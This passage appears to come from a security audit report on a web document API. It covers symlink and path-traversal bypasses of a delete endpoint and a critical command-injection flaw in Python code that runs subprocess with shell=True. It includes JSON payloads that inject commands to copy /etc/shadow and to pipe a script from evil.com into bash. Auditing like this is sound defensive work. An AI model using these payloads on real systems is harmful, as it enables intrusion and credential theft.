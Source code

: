 #### Bypass Techniques:
1. **Symbolic Link Bypass:**
   ```bash
   # Create symlink first
   ln -s /etc/passwd /var/www/documents/uploads/link
   # Delete through symlink
   DELETE /api/delete/link
   ```

2. **Path Normalization Bypass:**
   ```bash
   DELETE /api/delete/./../.././../../etc/hosts
   ```

---

### 6. Command Injection via Path Traversal

**Vulnerability Type:** OS Command Injection  
**Severity:** **CRITICAL**  
**CVSS 3.1 Score:** 9.8 (Critical)  
**CWE ID:** CWE-78  

#### Location Details:
- **Function:** `export_documents()`
- **Line Numbers:** 318-319, 324-325
- **Vulnerable Code:**
```python
source_path = os.path.join(UPLOAD_FOLDER, source_file)  # LINE 318
output_path = os.path.join(TEMP_FOLDER, f"{output_name}.{export_format}")  # LINE 319

cmd = f"convert {source_path} {output_path}"  # LINE 324
subprocess.run(cmd, shell=True)  # LINE 325 - SHELL INJECTION
```

#### Attack Vectors:
```json
// Command injection through source_file
{
    "source": "image.jpg; cat /etc/shadow > /tmp/shadow.txt",
    "output": "output"
}

// Command injection through output_name
{
    "source": "file.pdf",
    "output": "out; wget evil.com/backdoor.sh | bash"
}
```

---

### 7. Directory Traversal Listing
